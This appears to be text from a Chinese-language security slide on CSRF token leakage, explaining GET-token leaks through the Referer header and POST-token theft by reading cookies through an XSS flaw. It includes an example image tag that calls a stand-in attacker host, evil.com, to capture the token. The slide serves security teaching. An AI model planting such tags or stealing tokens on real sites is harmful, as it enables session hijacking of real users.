

Token泄露
例如：GET型Token泄露
页面包含 <img src=”http://evil.com/” /> 那么请求中的Referer就会携带对应的GET Token。
例如：POST型Token泄露
利用XSS漏洞读取Cookie，获取存储在其中的Token值。